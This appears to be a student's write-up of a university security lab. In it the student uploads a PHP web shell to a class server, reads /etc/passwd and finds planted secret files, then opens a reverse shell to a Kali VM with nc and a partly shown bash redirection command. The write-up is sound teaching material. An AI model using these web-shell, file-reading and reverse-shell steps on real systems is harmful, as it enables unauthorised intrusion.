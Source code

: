 ### Lazuli Kleinhans

# Part 1: Installing a PHP Web Shell

## Explain how you can execute the Linux command `whoami` on the server using your webshell. What result do you get when you execute that command?

After I uploaded my `kleinhansc-webshell.php` file, I am able to type `http://danger.jeffondich.com/uploadedimages/kleinhansc-webshell.php?command=whoami` into the address bar and remotely run the `whoami` command on Jeff's server. I get the result `www-data`.

## What is this webshell's `<pre>` tag for? (And more to the point, what happens if you leave it out?)

It defines preformatted text, which displays the content in a monospace font while preserving whitespace (like newlines and tabs). If you leave it out it prints all the text on the same line and makes interpreting the output very difficult.


# Part 2: Looking Around

## What directory is danger's website located in?

`/var/www/danger.jeffondich.com`

## What are the names of all the user accounts on `danger.jeffondich.com`? How do you know?

If I take a look at the contents of `/etc/passwd`, I see many different entries. Most entries have no shell (with the shell set as `/usr/sbin/nologin`), and therefore are not user accounts. The 4 that do have `/bin/bash` as their shell are `root`, `jeff`, `postgres`, and `bullwinkle`. `postgres` is not really a user account, so the three users are `root jeff bullwinkle`.

## Do you have access to the file `/etc/passwd`? What's in it?

Yes I do. There are listings of many different accounts that exist on the server. Each listing has details about each user, including the name, UID, home directory and the shell that that user uses. 

## Do you have access to the file `/etc/shadow`? What's in it? (You'll have to look online for the answer to that second question, since the answer to the first is no.)

No I do not. It stores the hashes of each user's password along with information about that password.

## There may be some secret files scattered around. See how many you can find and report on your discoveries.

* In the file `/home/jeff/youfoundme.txt` it says `This isn't the secret, but hi!`.
* In the file `/home/jeff/supersecret.txt` it says `Congratulations!` and then a wonderful piece of moose ASCII art.
* In the file `/opt/more-secrets.txt` it says `Oh look. You found me!`.
* In the file `/opt/.even-more-secrets.txt` it says `Aw, a little period couldn't hide me? So sad.`.
* In the file `/var/www/danger.jeffondich.com/secrets/kindasecret.txt` it says `Congratulations!` and then a wonderful piece of frog ASCII art.
* In the file `/var/www/danger.jeffondich.com/youwontfindthiswithgobuster/secret.txt` it says `Congratulations!` and then a wonderful piece of ASCII art depicting two birds.


## [Optional] Report on anything else interesting you discover.

I did find a readable RSA secret key file `/var/lib/fwupd/pki/secret.key`. Maybe want to lock that one down?


# Part 4: Launching a Reverse Shell

## What is the IP address of your Kali VM (the target machine)? How did you find out?

It is `192.168.161.129`. I found it by running `ip a` on Kali.

## What are the IP addresses of your host OS (the attacking machine)? How did you find out? Which one should you use to communicate with Kali and why?

My internal IP is `172.26.95.208` (which I found using `ip a`) and my external IP is `194.33.45.91` (which I found by looking at my VPN). I should use the internal `172.26.95.208` because I am communicating with a program that is running within the same system as Kali.

## Go back and look at your `nc -l -p` terminal on your host OS (attacking machine). Do you have a shell now? Is it letting you execute commands on Kali? How do you know it's Kali?

I do! It is! I know it is Kali because in the shell prompt `www-data@kali:/var/www/html$ ` it says `@kali` which indicates that the machine I am talking to is named `kali`.

## What are all those `%` codes in the URL you used?

They are representations of different characters that a web browser can decode to pass along to the Kali apache server. For example, `%20` is decoded as a space and `%22` is decoded as `"`.

## Write a brief description, probably including a diagram, explaining how this reverse shell is functioning.

Using the webshell that we put on the target machine, we are running a command on that machine that tells it to connect to the attacking machine. This command launches bash on the target machine, connecting its standard in and standard out to the connection we set up.

```
   [ATTACKING MACHINE]                [TARGET MACHINE]
       webshell.php          ----->
bash -c "bash -i >& /dev...  ----->     webshell.php
                             <-----        stdin
                             <-----        stdout
         whoami              ----->
                             <-----      "www-data"
```
